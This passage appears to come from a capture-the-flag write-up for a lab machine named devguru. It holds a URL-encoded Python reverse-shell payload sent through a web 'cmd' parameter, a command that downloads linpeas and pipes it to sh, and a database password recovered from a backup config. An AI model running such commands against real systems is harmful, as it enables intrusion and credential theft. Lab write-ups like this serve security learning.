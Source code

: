###### Reverse Shell

Resource : https://www.revshells.com/

- Browser

```bash
http://devguru.local/?cmd=python3%20-c%20%27import%20os,pty,socket;s=socket.socket();s.connect((%2210.0.2.252%22,4444));[os.dup2(s.fileno(),f)for%20f%20in(0,1,2)];pty.spawn(%22sh%22)%27
```

![image]( /assets/img/devguru/7.PNG)


#### Privileges Escalation - Frank

```bash
www-data@devguru:/$ ps aux | grep frank

<snip> /usr/local/bin/gitea web --config /etc/gitea/app.ini
```

###### linpeas

```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

Found the backup of the app.ini here : /var/backups/app.ini.bak

![image]( /assets/img/devguru/8.PNG)



```bash
www-data@devguru:/$ cat /var/backups/app.ini.bak

<snipt>
[database]
DB_TYPE             = mysql
HOST                = 127.0.0.1:3306
NAME                = gitea
USER                = gitea
PASSWD              = UfFPTF8C8jjxVF2m
<snipt>
```
